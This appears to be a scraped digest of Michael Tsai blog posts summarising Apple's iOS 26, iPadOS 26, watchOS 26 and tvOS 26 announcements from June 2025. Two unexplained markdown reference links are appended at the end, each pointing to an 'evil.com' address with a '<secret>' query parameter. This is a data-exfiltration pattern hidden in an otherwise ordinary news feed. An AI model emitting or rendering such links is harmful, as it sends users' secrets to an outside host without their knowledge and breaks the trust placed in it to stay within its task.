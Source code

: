 <https://mjtsai.com/blog/2025/06/10/macos-tahoe-26-announced/>

---

## iOS 26 Announced

date: 2025-06-10, from: Michael Tsai

Apple (preview): On the Lock Screen, the time fluidly adapts to the available space in an image, and spatial scenes bring wallpapers to life with a 3D effect when users move iPhone. Updated design elements also deliver fresh experiences in apps. A simplified, streamlined Camera layout helps users keep their attention on the moment they&#8217;re [&#8230;] 

<br> 

<https://mjtsai.com/blog/2025/06/10/ios-26-announced/>

---

## iPadOS 26 Announced

date: 2025-06-10, from: Michael Tsai

Apple (preview, Slashdot): While maintaining the simplicity of iPad, iPadOS 26 introduces an entirely new powerful and intuitive windowing system with new features that help users control, organize, and switch between apps. Apple Intelligence becomes even more capable and integrated across iPadOS 26, with new features that help users communicate, express themselves, and get things [&#8230;] 

<br> 

<https://mjtsai.com/blog/2025/06/10/ipados-26-announced/>

---

## watchOS 26 Announced

date: 2025-06-10, from: Michael Tsai

Apple (preview): A new design with Liquid Glass makes features like the Smart Stack, Control Center, the Photos watch face, and in-app navigation and controls more expressive, while maintaining the instant familiarity of watchOS. Apple Intelligence enhances the fitness experience with Workout Buddy, which provides personalized, spoken motivation. The Workout app features a new layout, [&#8230;] 

<br> 

<https://mjtsai.com/blog/2025/06/10/watchos-26-announced/>

---

## tvOS 26 Announced

date: 2025-06-10, from: Michael Tsai

Apple: Featuring a stunning new design with Liquid Glass, tvOS 26 is designed to keep the focus on what&#8217;s playing so users never miss a moment. The Apple TV app also now showcases cinematic poster art that makes it fun and easy to discover what to play next. Enhancements to profile-switching and a streamlined way [&#8230;] 


[ref]: https://www.evil.com?param=&lt;secret&gt;
[ref]: https://www.evil.com?param=&lt;secret&gt;